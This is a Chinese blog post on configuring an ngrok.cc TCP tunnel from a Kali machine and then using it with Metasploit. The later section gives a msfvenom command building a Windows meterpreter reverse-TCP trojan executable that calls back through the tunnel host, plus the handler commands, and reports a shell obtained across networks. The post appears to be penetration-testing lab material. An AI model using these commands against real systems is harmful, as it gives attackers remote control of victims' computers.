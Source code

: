 ```yaml
---
title: vps配置ngrok反向代理
mathjax: true
copyright: true
comment: true
date: 2019-9-13 22:34:39
tags: vps
categories: vps
---
```

作为内网用户我们有时需要本地WEB外网访问、本地开发微信、TCP端口转发，而ngrok能提供web的演示


<!-- more -->

---
### 1 起因:
**自己搭建的ngrok挂掉了**

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/assets_-LmZd4hDssHUnSVc-fcz_-LoVTv8QqMMKzoLaVACw_-LoVU-4q8fTZhMIn0mke_2019-09-11%2008-08-21%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)



### 2 更换ngrok.cc的客户端
#### 2.1 开通一个免费的隧道。

![选择免费的](https://raw.githubusercontent.com/alpha302/cloudimg/master/assets_-LmZd4hDssHUnSVc-fcz_-LoVUXCTyxmLvOZFFRb1_-LoVUnBGBgOxzNjbHIW1_QQ%E5%9B%BE%E7%89%8720190911201909.png)

#### 2.2  开通你的隧道

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/assets.png)

隧道协议选tcp，之后要用metasploit结合ngrok

隧道名称随意

端口选择只要不是服务器端口就好

本地端口选择kali 的内网地址
#### 2.3管理隧道

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/assets_-LmZd4hDssHUnSVc-fcz_-LoV%40IG.png)

下载客户端

记录好隧道id

#### 2.4 kali下安装客户端测试

```r
#安装路径下执行
root@kali:~# ./sunny clientid id
#出现online表明成功
```
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/assets_-LmZd4hDssHUnSVc-fcz_-LoVVI_LuEGMO4yZbsh8_-LoVVO3UyeLRO-Xnm4YI_Inked2019-09-11%2008-33-47%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE_LI.jpg)



现在可以启用web，打开127.0.0.1:4040查看管理。需要设置apache2的端口为端口为kali内的端口，开启apache2的服务

### 3 测试metasploit结合ngrok内网穿透
#### 3.1 生成木马（未免杀）
```r
msfvenom -p windows/meterpreter/reverse_tcp LHOST=free.idcfen*** LPORT=123** -f exe > /root/Desktop/ngrok.exe
```

#### 3.2 使用Metasploit进行测试
```r
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.200.128(Kali的Linux内网IP)
set lport 1000 (隧道的端口号)
run
```
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/assets_-LmZd4hDssHUnSVc-fcz_-LoVVTv2GyLgE9_tkQm4_-LoVVoKcjVmGXJ.png)

成功获取shell，不同网段。
### 4 端口选择
**以下为服务端口，不可用选用**
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/assets_-LmZd4hDssHUnSVc-fczE%24I.png)


